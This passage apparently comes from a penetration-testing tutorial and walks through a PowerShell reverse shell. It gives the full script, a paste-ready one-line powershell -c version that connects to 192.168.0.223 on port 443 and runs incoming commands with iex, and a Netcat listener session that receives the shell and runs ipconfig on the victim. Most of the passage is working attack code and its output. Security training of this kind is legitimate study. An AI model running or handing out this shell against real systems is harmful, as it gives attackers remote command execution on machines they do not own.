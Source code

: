 

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.0.223',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0 .. 65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);	
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```



```
C:\Windows\system32>powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.223',443); $stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

This one-liner may seem very arduous at first glance, but there is no need to memorize it; we would
likely copy-and-paste this type of command (replacing the IP and port number) during a live
penetration test.

Finally, we receive the reverse shell with Netcat:

```
$ sudo nc -lvnp 443                   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [192.168.0.223] from (UNKNOWN) [192.168.0.198] 50691
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::f122:da68:b61a:befe%6
   IPv4 Address. . . . . . . . . . . : 192.168.0.198
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.0.1
```

#### PowerShell Bind Shells
